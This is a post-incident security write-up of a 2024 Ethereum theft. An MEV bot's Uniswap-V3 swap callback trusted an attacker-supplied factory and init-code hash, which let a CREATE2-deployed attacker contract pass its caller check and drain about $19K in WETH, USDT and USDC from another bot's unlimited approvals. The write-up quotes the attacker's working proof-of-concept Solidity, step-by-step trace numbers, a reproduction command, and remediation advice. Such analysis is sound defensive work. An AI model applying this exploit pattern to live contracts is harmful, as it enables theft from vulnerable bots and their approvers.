



# MEV Bot `0xDd7c…3685` Exploit — Forgeable Uniswap-V3 Callback Authentication

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo contains many unrelated PoCs that do
> not whole-compile, so this one was extracted).
> Full verbose trace: [output.txt](output.txt).
> Both the vulnerable bot and the victim bot are **unverified** raw-bytecode MEV contracts; the
> root cause below was reconstructed from the live fork trace and from disassembling the bot's
> on-chain bytecode (see `sources/` note at the bottom).

---

## Key info

| | |
|---|---|
| **Loss** | ~$19K — **3.481 WETH + 4,021.32 USDT + 3,023.95 USDC** drained from another MEV bot (ETH ≈ $3,445 at block ⇒ ≈ $11,992 + $4,021 + $3,024 ≈ **$19,037**) |
| **Vulnerable contract** | MEV bot — [`0xDd7c2987686B21f656F036458C874D154A923685`](https://etherscan.io/address/0xDd7c2987686B21f656F036458C874D154A923685) (unverified) |
| **Victim / source of funds** | MEV bot — [`0x0000000000E715268E0fe41ced1dd101Fc696355`](https://etherscan.io/address/0x0000000000E715268E0fe41ced1dd101Fc696355) (gave the bot unlimited token approvals) |
| **Attacker EOA** | [`0x98250d30aed204e5cbb8fef7f099bc68dbc4b896`](https://etherscan.io/address/0x98250d30aed204e5cbb8fef7f099bc68dbc4b896) |
| **Attacker contract** | [`0xe10b2cfa421d0ecd5153c7a9d53dad949e1990dd`](https://etherscan.io/address/0xe10b2cfa421d0ecd5153c7a9d53dad949e1990dd) |
| **Created attack contract** | [`0x8a2F54B649d22BFd2A6bA23ADAb7DFd2d72EED9f`](https://etherscan.io/address/0x8a2F54B649d22BFd2A6bA23ADAb7DFd2d72EED9f) |
| **Attack tx** | [`0x53334c36502bd022bd332f2aa493862fd8f722138d1989132a46efddcc6b04d4`](https://app.blocksec.com/explorer/tx/eth/0x53334c36502bd022bd332f2aa493862fd8f722138d1989132a46efddcc6b04d4) |
| **Chain / block / date** | Ethereum mainnet / fork block 20,367,788 / 2024-07-23 |
| **Compiler** | Bot bytecode: Solidity v0.8.x (metadata marker `solc 0.8`); PoC: `^0.8.10` |
| **Bug class** | Broken caller authentication — Uniswap-V3 swap-callback pool check derived from **attacker-controlled** factory + init-code-hash |

---

## TL;DR

The vulnerable contract is a **Uniswap-V3-style MEV / arbitrage bot**. Like every V3 integrator, its
`uniswapV3SwapCallback(int256, int256, bytes)` (selector `0xfa461e33`) must verify that the caller is a
genuine Uniswap-V3 pool before it pays out tokens. The standard way to do this is to **re-derive the
pool address with CREATE2** (`address = keccak256(0xff ‖ factory ‖ keccak(token0,token1,fee) ‖
POOL_INIT_CODE_HASH)`) and require `msg.sender == derivedPool`.

This bot got that check exactly backwards: it reads the **`factory` and the init-code-`hash` straight
out of the attacker-supplied callback `data`** instead of using hard-coded constants. So the attacker:

1. Picks a `factory = <their own CREATE2 deployer>` and `codehash = keccak(<their own contract's
   creation code>)`.
2. **CREATE2-deploys** their attack contract (`Money`) so that its address is *exactly* the pool
   address the bot will re-derive from those two attacker-chosen values.
3. Calls the bot's `uniswapV3SwapCallback` directly from that contract. The bot re-derives
   `derivedPool == msg.sender` (because the attacker constructed it that way) and the check **passes**.
4. The bot, believing it is settling a real swap, executes
   `token.transferFrom(victim, msg.sender, amount)` — pulling tokens out of a **third bot**
   (`0x0000…696355`) that had granted this bot **unlimited approval**.

Because the victim bot had approved `type(uint256).max` of WETH, USDT and USDC to the vulnerable bot,
the attacker repeats the trick three times — once per token — and walks away with the victim's entire
WETH, USDT and USDC balances. No flash loan, no capital, no price manipulation: just a forged caller
identity.

---

## Background — what the bot does

`0xDd7c…3685` is an unverified MEV bot that integrates with Uniswap V3. Its function-selector
dispatcher (recovered by disassembling the live bytecode) routes, among others:

```
PUSH4 0xfa461e33  EQ  PUSH2 0x01e8  JUMPI   ; uniswapV3SwapCallback(int256,int256,bytes)
PUSH4 0xfa483e72  EQ  PUSH2 0x01e8  JUMPI   ; (alias → same handler)
PUSH4 0xf54ee89e  EQ  ...                    ; bot entry points
```
(see [output.txt](output.txt) trace and the disassembly note below).

A correct V3 integrator implements the callback like this (Uniswap's own `CallbackValidation`):

```solidity
function uniswapV3SwapCallback(int256 amount0, int256 amount1, bytes calldata data) external {
    SwapCallbackData memory d = abi.decode(data, (SwapCallbackData));
    // POOL is re-derived from CONSTANT factory + CONSTANT init-code-hash:
    address pool = PoolAddress.computeAddress(FACTORY, PoolAddress.getPoolKey(d.tokenIn, d.tokenOut, d.fee));
    require(msg.sender == pool, "invalid caller");      // ← anchored in immutable constants
    // ...pay the pool what is owed...
    pay(d.tokenIn, d.payer, msg.sender, amountOwed);
}
```

The two values that make this check trustworthy are **`FACTORY` and `POOL_INIT_CODE_HASH`** — they are
protocol constants. If either is sourced from caller-controlled `data`, the check becomes a tautology
the caller can always satisfy.

---

## The vulnerable code

Both the bot and the victim are **unverified** (no Solidity on Etherscan), so there is no source file
to link. The vulnerability is, however, fully reconstructable from (a) the on-chain bytecode and
(b) the attacker's own PoC, which is itself a precise specification of the data the bot consumes.

### What the bot consumes (from the PoC)

The attacker's helper contract `Money` builds the exact `data` blob the bot's callback decodes
([test/MEVbot_0xdd7c_exp.sol:111-120](test/MEVbot_0xdd7c_exp.sol#L111-L120)):

```solidity
function attack(address vuln, address token, uint256 amount) public {
    bytes32 codehash = IContractTest(owner).getcodehash();      // keccak256(type(Money).creationCode)
    DATA.SwapData memory datas = DATA.SwapData({
        vuln:     address(vuln),                                 // the VICTIM bot (funds source)
        factory:  address(owner),                               // attacker's CREATE2 deployer
        codehash: codehash,                                     // keccak(Money.creationCode)
        data:     abi.encodePacked(address(token), hex"000000", address(token))   // V3-style path
    });
    bytes memory data = abi.encode(datas);
    // call the bot's uniswapV3SwapCallback(0xfa461e33) with (amount0 = -1, amount1 = amount, data):
    VulnContract.call(abi.encodeWithSelector(bytes4(0xfa461e33), -1, amount, data));
    // sweep whatever the bot transferred into THIS contract back to the attacker:
    WETH.transfer(address(owner), WETH.balanceOf(address(this)));
    address(USDT).call(abi.encodeWithSelector(bytes4(0xa9059cbb), address(owner), USDT.balanceOf(address(this))));
    USDC.transfer(address(owner), USDC.balanceOf(address(this)));
}
```

The `SwapData` struct ([test/MEVbot_0xdd7c_exp.sol:14-21](test/MEVbot_0xdd7c_exp.sol#L14-L21)) is
the bot's own callback schema, reverse-engineered by the attacker:

```solidity
library DATA {
    struct SwapData {
        address vuln;       // address the bot will transferFrom() — i.e. the funds source
        address factory;    // factory used in the CREATE2 pool-address re-derivation  ⚠️ attacker-set
        bytes32 codehash;   // pool init-code-hash used in re-derivation                ⚠️ attacker-set
        bytes   data;       // (tokenIn ‖ fee ‖ tokenOut) — tells the bot which token to pull
    }
}
```

### What the bot's bytecode does (from disassembly)

Disassembling the runtime code shows the callback handler:

1. Decodes the four fields above.
2. Re-derives a pool address using the CREATE2 formula — the bytecode contains the tell-tale
   `PUSH1 0xff` prefix byte and `KECCAK256` opcodes used to hash `0xff ‖ factory ‖ salt ‖ codehash`,
   then masks to 160 bits.
3. Loads the result and executes `CALLER EQ … JUMPI` — i.e. `require(msg.sender == derivedPool)`
   (the failing branch jumps to a `0x461bcd`-prefixed `Error(string)` revert, the standard
   `require(...)` revert encoding). Two such `CALLER EQ` checks appear in the runtime code
   (offsets `~0x527` and `~0x935`).
4. On success, executes `token.transferFrom(vuln, msg.sender, amount)` — confirmed in the trace as the
   first inner call inside every `uniswapV3SwapCallback` (see walkthrough).

The fatal step is **(2)**: `factory` and `codehash` are taken from the decoded `data`, not from
constants, so the attacker fully controls the derived address.

---

## Root cause — why it was possible

A CREATE2 pool-authentication check is only meaningful if **both** inputs to the address derivation are
trusted protocol constants:

```
derivedPool = address( keccak256( 0xff ‖ FACTORY ‖ keccak256(token0,token1,fee) ‖ INIT_CODE_HASH ) )
require(msg.sender == derivedPool)
```

If `FACTORY` or `INIT_CODE_HASH` is attacker-controlled, the attacker can **invert** the equation:
choose any `msg.sender` they want, then back-solve a `(FACTORY, INIT_CODE_HASH)` pair (here, by
deploying their contract via CREATE2 with a known init-code) so that `derivedPool` equals that
`msg.sender`. The "authentication" then authenticates the attacker.

That is exactly what happens here. The bot derives:

```
derivedPool = CREATE2( deployer = attacker.factory,
                       salt     = keccak256(tokenIn, fee, tokenOut),   // = keccak256(token, token, 0)-ish
                       initCodeHash = attacker.codehash )
```

and the attacker simply pre-deploys `Money` at that very address. **Verified numerically** with `cast`:

```
salt           = keccak256(abi.encode(WETH, WETH, 0))
               = 0xa42f8050802cdd40a304715df8d59575081b3a275c71370bc9132746bcdd19f4
deployer       = 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496   (ContractTest, forge default)
initCodeHash   = 0xa5823475db9ca6637cd6aba11f78909c5c0933030358ebbeb2980b9d04cce1c0
CREATE2 address = 0x944F11751557FeDc3BBdb3be9774710095EC95A0   ← EXACTLY the Money contract from the trace
```

So `msg.sender (Money) == derivedPool`, the `require` passes, and the bot pays out.

The reason there is anything to steal is the **second** design flaw, on the victim's side:

> The victim bot `0x0000…696355` had granted the vulnerable bot **`type(uint256).max`** allowance for
> WETH, USDT and USDC (verified on the fork: `allowance(victim, vuln) = 1.157e77` for all three). The
> vulnerable bot's `transferFrom(vuln, msg.sender, amount)` therefore succeeds for the victim's entire
> balance — the attacker just chooses `vuln = victim` in the forged `SwapData`.

Two independent mistakes compose into a clean theft:

1. **Forgeable callback authentication** (the bot trusts attacker-supplied `factory`/`codehash`).
2. **Unbounded standing approvals** (the victim left infinite approvals to a bot whose callback can be
   driven by anyone).

---

## Preconditions

- The vulnerable bot exposes `uniswapV3SwapCallback` (`0xfa461e33`) and re-derives its pool-address
  check from `factory`/`codehash` fields carried **inside the callback `data`** (not from constants).
- The bot's pay-out path is `token.transferFrom(<data.vuln>, msg.sender, amount)` — i.e. it pulls
  tokens from an address named in the (attacker-controlled) data.
- A funded address (`0x0000…696355`) has a **non-zero / unlimited approval** to the vulnerable bot for
  the target tokens. (The attack steals only up to that approval and up to the victim's balance.)
- No capital required: the attacker spends only gas. No flash loan, no price manipulation.

---

## Attack walkthrough (with on-chain numbers from the trace)

All numbers below are read directly from [output.txt](output.txt). The attack runs **three times**, once
per token, each iteration: `CREATE2-deploy Money → call bot callback → bot transferFrom(victim → Money)
→ Money sweeps to attacker`.

| # | Step | Trace evidence | Amount moved |
|---|------|----------------|-------------:|
| 0 | **Initial** — attacker holds 0 of everything | [output.txt:1594-1596](output.txt) | WETH 0 / USDT 0 / USDC 0 |
| 1 | **CREATE2-deploy** `Money` at `0x944F…95A0` (salt = keccak(WETH,WETH,0)) | `new Money@0x944F…95A0`, 8607 bytes | — |
| 2 | Read victim WETH balance | `WETH.balanceOf(victim) → 3.481e18` | 3.481 WETH targeted |
| 3 | **Call bot** `uniswapV3SwapCallback(-1, 3.481e18, forgedData)` | bot re-derives pool == `Money`, check passes | — |
| 4 | Bot pulls victim's WETH via forged approval | `WETH.transferFrom(victim, Money, 3.481e18)` | **3.481 WETH** victim → Money |
| 5 | `Money` sweeps to attacker (ContractTest) | `WETH.transfer(ContractTest, 3.481e18)` | 3.481 WETH → attacker |
| 6 | **Repeat for USDT** — deploy `Money@0x081A…3c4b`, call callback, `transferFrom(victim, Money, 4.021e9)` | `TetherToken.transferFrom(victim, Money, 4021323617)` | **4,021.32 USDT** victim → attacker |
| 7 | **Repeat for USDC** — deploy `Money@0xf96a…8458`, call callback, `transferFrom(victim, Money, 3.023e9)` | `FiatTokenV2_2.transferFrom(victim, Money, 3023950886)` | **3,023.95 USDC** victim → attacker |
| 8 | **Final** — attacker balances | [output.txt:1597-1599](output.txt) | WETH 3.481 / USDT 4,021.32 / USDC 3,023.95 |

The crucial inner call for the WETH leg, verbatim from the trace
([output.txt:1642-1649](output.txt)):

```
0xDd7c…3685::uniswapV3SwapCallback(-1, 3481082391664690024, 0x…)
  └─ WETH9::transferFrom(0x0000…696355, Money[0x944F…95A0], 3481082391664690024)
       emit Transfer(from: 0x0000…696355, to: Money, value: 3.481e18)
     ← true
```

No revert from a caller check ⇒ the forged `factory`/`codehash` defeated the authentication.

### Profit / loss accounting

| Token | Amount stolen | Approx. USD (block 20,367,788, ETH≈$3,445) |
|---|---:|---:|
| WETH | 3.481082391664690024 | ≈ $11,992 |
| USDT | 4,021.323617 | ≈ $4,021 |
| USDC | 3,023.950886 | ≈ $3,024 |
| **Total** | — | **≈ $19,037** (header: "~18K USD") |

Attacker cost: gas only. Victim loss: its full WETH/USDT/USDC balance that was reachable through the
standing infinite approval.

---

## Diagrams

### Sequence of the attack (one token leg; repeated 3×)



### Why the authentication is forgeable



### Funds-flow / state evolution across the three legs



---

## Remediation

1. **Anchor the callback pool check in immutable constants.** Re-derive the pool address from a
   **hard-coded** `FACTORY` and `POOL_INIT_CODE_HASH` (Uniswap's `PoolAddress.computeAddress`), never
   from fields inside the callback `data`. The whole point of the CREATE2 check is that the attacker
   cannot influence the inputs.
2. **Track the expected callback caller out-of-band.** A robust pattern is: before initiating a swap,
   store `expectedPool = the_pool_you_called` in transient storage, and have the callback assert
   `msg.sender == expectedPool` *and* that a swap is actually in progress (a re-entrancy/flow lock).
   This makes a cold, attacker-initiated callback impossible regardless of address math.
3. **Never let callback `data` name the funds source.** The `vuln`/payer field should be derived from
   the bot's own initiating call (the address that asked for the swap), not decoded from caller-supplied
   bytes. Pulling `transferFrom(<data.address>, …)` on attacker-chosen data is a direct
   allowance-draining primitive.
4. **Minimise and scope approvals (victim side).** The victim bot's infinite approvals to another bot
   turned a "harmless" mis-authorisation into a full balance theft. Approve only the exact amount
   needed per operation (or use `permit2`/pull-on-demand), and revoke idle approvals. Holding zero
   idle balance / using just-in-time funding also caps blast radius.
5. **Treat selector aliases carefully.** The bot wired both `0xfa461e33` and `0xfa483e72` to the same
   unauthenticated handler — every entry point that can move funds must enforce the same caller check.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has many
unrelated PoCs that fail to compile under a whole-project `forge build`):

```bash
_shared/run_poc.sh 2024-07-MEVbot_0xdd7c_exp -vvvvv
```

- RPC: an **Ethereum mainnet archive** endpoint is required (fork block 20,367,788). `foundry.toml`
  uses an Infura archive endpoint; most pruned public RPCs fail at that block with
  `missing trie node` / `header not found`.
- Result: `[PASS] testExpolit()`.

Expected tail:

```
[PASS] testExpolit() (gas: 6077099)
  [Begin] Attacker WETH before exploit: 0.000000000000000000
  [Begin] Attacker USDT before exploit: 0.000000
  [Begin] Attacker USDC before exploit: 0.000000
  [End] Attacker WETH after exploit: 3.481082391664690024
  [End] Attacker USDT after exploit: 4021.323617
  [End] Attacker USDC after exploit: 3023.950886
```

---

## A note on `sources/`

`fetch_sources.sh` returned **UNVERIFIED** for both the vulnerable bot (`0xDd7c…3685`) and the victim
bot (`0x0000…696355`) — neither publishes Solidity on Etherscan (typical for MEV bots, which deploy
hand-tuned/raw bytecode). The `sources/` directory is therefore empty. The root-cause analysis above is
grounded in:

- the **live fork trace** ([output.txt](output.txt)), which shows the exact
  `uniswapV3SwapCallback → transferFrom(victim, Money, amount)` flow with concrete numbers;
- the attacker's **own PoC** ([test/MEVbot_0xdd7c_exp.sol](test/MEVbot_0xdd7c_exp.sol)), which encodes
  the precise `SwapData` schema the bot consumes;
- **disassembly** of the bot's on-chain runtime bytecode (selector dispatch for `0xfa461e33`, the
  `0xff`-prefixed CREATE2 keccak derivation, and the `CALLER EQ … JUMPI` require checks);
- **`cast`-verified** numerics: the CREATE2 re-derivation
  `CREATE2(0x7FA9…1496, keccak(WETH,WETH,0), 0xa5823475…cce1c0) = 0x944F…95A0` matches the deployed
  `Money` address byte-for-byte, and the victim's allowance to the bot is `type(uint256).max` for all
  three tokens.

---

*Reference: SlowMist Team — https://x.com/SlowMist_Team/status/1815656653100077532 (MEV bot, Ethereum, ~$18K).*
